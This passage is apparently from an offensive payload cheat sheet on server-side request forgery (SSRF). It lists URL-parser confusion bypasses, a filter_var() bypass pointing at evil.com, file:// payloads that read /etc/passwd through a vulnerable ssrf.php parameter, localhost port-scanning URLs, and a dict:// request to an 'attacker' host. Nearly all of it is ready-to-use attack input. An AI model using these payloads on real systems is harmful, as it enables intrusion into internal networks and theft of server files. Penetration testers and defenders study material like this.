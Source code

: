 **Bypass using tricks combination**

```http
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

**Bypass filter_var() php function**

```http
0://evil.com:80;http://google.com:80/
```

**Bypass against a weak parser**

by Orange Tsai (<a href="https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf">Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf</a>)

```http
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

**SSRF exploitation via URL Scheme:**

**File**

Allows an attacker to fetch the content of a file on the server

```
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

**HTTP**

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```http
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

<p align="center"/><img src="https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true">

The following URL scheme can be used to probe the network

**Dict**

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```http
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/  
```
